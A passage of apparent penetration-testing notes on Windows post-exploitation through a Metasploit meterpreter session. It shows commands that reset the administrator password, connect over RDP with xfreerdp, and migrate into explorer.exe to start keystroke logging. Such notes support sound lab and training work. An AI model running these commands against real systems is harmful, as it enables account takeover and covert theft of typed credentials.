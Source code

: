 To check if RDP is enabled (3389 open port), we can do a db\_nmap scan on port 3389

Back on the last meterpreter's session, we change credentials:

```bash
sessions 1
shell
net users #list all users
net user administrator new_psw #change psw
```

#### Connecting with RDP from Linux

If we want to use RDP to access from linux, we can use this tool: **xfreerdp:**

```bash
xfreerdp /u:administrator /p:new_psw /v:IP
```

A good things to do is create and access with a new windows account and utilize it.

### Windows Keylogging <a href="#linux-pe-modules" id="linux-pe-modules"></a>

A **keylogger,** short for "keystroke logger," is a type of software or hardware device that records the keystrokes made on a computer or mobile device keyboard without the user's knowledge or consent. The primary purpose of a keylogger is to monitor and record everything a user types, including usernames, passwords, messages, and any other text entered via the keyboard.

Keyloggers can be used for both legitimate and malicious purposes:

1. **Legitimate Use:**
   * **Security Monitoring:** Some organizations and individuals use keyloggers for security purposes to monitor and log activity on their own systems. This can help detect unauthorized access or suspicious behavior.
   * **Parental Control:** Parents may use keyloggers to monitor their children's online activities and ensure they are using the internet responsibly.
   * **Employee Monitoring:** Employers may use keyloggers to monitor employee activities on company-owned devices to ensure compliance with company policies.
2. **Malicious Use:**
   * **Cybercrime:** Keyloggers can be deployed by cybercriminals to steal sensitive information such as login credentials, credit card numbers, and personal data.
   * **Identity Theft:** Keyloggers can capture personal information that can be used for identity theft or fraud.
   * **Espionage:** State-sponsored actors and espionage organizations may use keyloggers to gather sensitive information from targeted individuals or organizations.

It's the best alternative to RDP, because ther're not interaction with mouse.

To record keyboard, first we need to migrate explorer.exe process In a the meterpreter target session:

```bash
pgrep explorer #give us explorer.exe ppid
migrate explorer_ppid_number
help #show us all comand includes keylogger
```
